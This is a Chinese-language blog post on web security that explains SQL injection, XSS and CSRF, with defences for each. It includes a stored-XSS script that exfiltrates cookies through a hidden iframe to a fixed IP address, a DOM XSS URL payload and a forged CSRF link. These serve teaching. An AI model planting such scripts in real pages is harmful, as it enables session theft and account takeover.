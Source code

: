 ```yaml
---
title: web安全
id: 20170828
tags:
  - web
  - 安全
  - sql注入
  - XSS
  - CSRF
categories:
  - 安全
  - sql注入
  - XSS
  - CSRF
date: 2017-08-28 03:36:45
---
```


##### 一、SQL注入

​    把SQL命令插入到web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意SQL命令。

​    SQL分为平台层注入和代码层注入。前者由不安全的数据库配置或者数据库平台的漏洞所致；后者主要是由于程序员对输入未进行细致地过滤，从而执行了非法查询

​    应对：

* 永远不要信任用户的输入，要对用户的输入进行校验，可以通过正则表达式，或限制长度，对单引号和双"-"进行转换等。
* 永远不要使用动态拼装SQL，可以使用参数化的SQL或者直接使用存储过程进行数据查询存取。
* 永远不要使用管理员权限的数据库连接，为每个应用使用单独的权限有限的数据库连接。
* 不要把机密信息明文存放，请加密或者hash掉密码和敏感的信息。

##### 二、XSS(Cross-site scripting 跨站脚本攻击)

  XSS攻击指的是攻击者往web页面里插入而已html标签或者js代码。比如：攻击者在论坛中放一个看似安全的链接，骗取用户点击后，窃取cookie中的用户私密信息；或者攻击者在论坛中加一个恶意表单，当用户提交表单的时候，却把信息传送到攻击者的服务器中，而不是用户原本以为的信任站点。

**分类**

1、反射型跨站脚本(Reflected Cross-site Scripting)。主要是将恶意脚本附加到URL地址的参数中，原理如下：发现存在反射XSS的URL——根据输出点的环境构造XSS代码——进行编码等迷惑手法——发送给受害人——受害打开后，执行XSS代码——完成攻击(获取cookies、url、浏览器信息、IP等)。反射型XSS的特点是只在用户单击时触发，且只执行一次，故也称作非持久型跨站。

2、持久型跨站脚本(Persistent Cross-site Scripting)。攻击者事先将恶意Javascript代码上传或储存到漏洞服务器上，只要受害者浏览包含此恶意代码的页面就会中招。一般出现在留言、评论等交互处。

```javascript
// 用 <script type="text/javascript"></script> 包起来放在评论中

(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```

3、DOM XSS。前面两种XSS一般出现在服务器端代码中，而DOM-Based XSS是基于DOM文档对象模型，受客户端浏览器代码的影响。这一漏洞的前提是，一个网页以不安全的方式使用document.location、document.URL、document.referrer等对象获取数据。
举个例子，有如下代码：

```html
<html>
<head>
<title>Welcome!</title>
</head>
<body>
  <p>Hi</p>
  <script>
    var pos=document.URL.indexOf("name=")+5;
    document.write(document.URL.substring(pos,document.URL.length));
  </script>
</body>
</html>
```

通常，这个欢迎网页的请求是这样的：

`http://www.test.com/welcome.html?name=lihua`

然而，如果这个请求是这样的：

`http://www.test.com/welcome.html?name=<script>alert(document.cookie)</script>`

这就导致了XSS，弹出了cookie。

**XSS防范方法**

* 代码里对用户输入的地方和变量都需要仔细检查长度和对”<”,”>”,”;”,”’”等字符做过滤；其次任何内容写到页面之前都必须加以encode，避免不小心把html tag 弄出来。这一个层面做好，至少可以堵住超过一半的XSS 攻击。
* 避免直接在cookie 中泄露用户隐私，例如email、密码等等。
* 通过使cookie 和系统ip 绑定来降低cookie 泄露后的危险。这样攻击者得到的cookie 没有实际价值，不可能拿来重放。
* 如果网站不需要再浏览器端对cookie 进行操作，可以在Set-Cookie 末尾加上HttpOnly 来防止javascript 代码直接获取cookie 。
* 尽量采用POST 而非GET 提交表单

##### 三、CSRF（Cross-site request forgery 跨站请求伪造）

也被称为 one-click attack 或者 session riding，通常缩写为 CSRF 或者 XSRF， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。就是冒充用户发起请求（在用户不知情的情况下）,完成一些违背用户意愿的请求（如恶意发帖，删帖，改密码，发邮件等）。

例如，一论坛网站的发贴是通过 GET 请求访问，点击发贴之后 JS 把发贴内容拼接成目标 URL 并访问： `http://example.com/bbs/create_post.php?title=标题&content=内容` 那么，我只需要在论坛中发一帖，包含一链接： `http://example.com/bbs/create_post.php?title=我是脑残&content=哈哈` 只要有用户点击了这个链接，那么他们的帐户就会在不知情的情况下发布了这一帖子。可能这只是个恶作剧，但是既然发贴的请求可以伪造，那么删帖、转帐、改密码、发邮件全都可以伪造。

**方案**

* 改变API设计，对于发帖这一类创建资源操作，只接受POST请求，而GET请求应该只浏览而不改变服务器端资源，即restful api

* 通过“请求令牌”防御，“请求令牌”和“同步令牌”原理一样，只不过目的不同，前者为了保证请求一定来自预期的页面，后者为了解决POST请求重复提交问题；

  *实现原理：*

  服务器要以某种策略生成随机字符串，作为令牌（token），保存在session里，然后在发出请求的页面，把令牌以隐藏域一类的形式，与其他信息一并发出。在接受请求的页面，把接收到的信息中的令牌与session中的比较，只有一致的时候才处理，否则返回403或要求用户重新登陆验证身份

  **注意：**

  - 虽然请求令牌原理和验证码有相似之处，但不应该像验证码一样，全局使用一个 Session Key。因为请求令牌的方法在理论上是可破解的，破解方式是解析来源页面的文本，获取令牌内容。如果全局使用一个 SessionKey，那么危险系数会上升。原则上来说，每个页面的请求令牌都应该放在独立的 Session Key中。我们在设计服务器端的时候，可以稍加封装，编写一个令牌工具包，将页面的标识作为 Session 中保存令牌的键。
  - 在 ajax 技术应用较多的场合，因为很有请求是 JavaScript 发起的，使用静态的模版输出令牌值或多或少有些不方便。但无论如何，请不要提供直接获取令牌值的API。这么做无疑是锁上了大门，却又把钥匙放在门口，让我们的请求令牌退化为同步令牌。
  - 第一点说了请求令牌理论上是可破解的，所以非常重要的场合，应该考虑使用验证码（令牌的一种升级，目前来看破解难度极大），或者要求用户再次输入密码（亚马逊、淘宝的做法）。但这两种方式用户体验都不好，所以需要产品开发者权衡。
  - 无论是普通的请求令牌还是验证码，服务器端验证过一定记得销毁。忘记销毁用过的令牌是个很低级但是杀伤力很大的错误。我们学校的选课系统就有这个问题，验证码用完并未销毁，故只要获取一次验证码图片，其中的验证码可以在多次请求中使用（只要不再次刷新验证码图片），一直用到Session 超时。这也是为何选课系统加了验证码，外挂软件升级一次之后仍然畅通无阻。

